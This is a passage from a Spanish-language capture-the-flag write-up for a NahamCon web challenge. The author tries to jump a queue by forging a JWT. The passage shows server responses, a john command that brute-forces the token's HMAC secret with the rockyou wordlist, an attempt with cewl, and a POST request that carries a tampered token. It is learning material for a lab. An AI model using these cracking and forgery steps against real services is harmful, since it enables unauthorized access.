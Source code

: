**Respuesta:**

```sh
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.22
Date: Fri, 23 May 2025 22:52:52 GMT
Content-Type: application/json
Content-Length: 136
Connection: close

{
"message":"Still waiting in queue. Estimated time: 858111 minutes",
"queue_position":61783992,
"status":"waiting",
"wait_minutes":858111
}
```

Tras esto, se me ocurrió que podríamos forjar nuestro token, modificando el _claim_
`queue_time` y saltar la fila, pero para ello
necesitaríamos el secreto con el que se firmó el mismo. Lo primero que verifiqué es si se
trataba de algún secreto débil con `john`:

```sh
$ john --format=HMAC-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt token.jwt

Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:02 DONE (2025-05-24 11:08) 0g/s 5352Kp/s 5352Kc/s 5352KC/s "chinor23"..*7¡Vamos!
Session completed.
```

También se intentó crear una _wordlist_ personalizada con `cewl` sobre la
URL raíz, pero de igual forma no se pudo obtener el secreto. Indagando
en la página principal del sitio el footer tenía carácteres que me parecieron
interesantes: `ftjy` así que procedí a usarlos como secreto. Al reenviar el
token sobre el mismo _endpoint_, esto provoca que se dispare un error del
lado del servidor y obtenemos información _muy_ interesante:

**Petición:**

```sh
POST /check_queue HTTP/1.1
Host: challenge.nahamcon.com:31075
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge.nahamcon.com:31075/queue
Content-Type: application/x-www-form-urlencoded
Content-Length: 151
Origin: http://challenge.nahamcon.com:31075
Connection: keep-alive
Priority: u=4

token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiYUBhLmEiLCJxdWV1ZV90aW1lIjoxNzYwNzkzMzIyLjQwNTUxNywiZXhwIjo1MzQ4MTAyMDYyfQ.ymFVmpr70Q4-TycbU
```
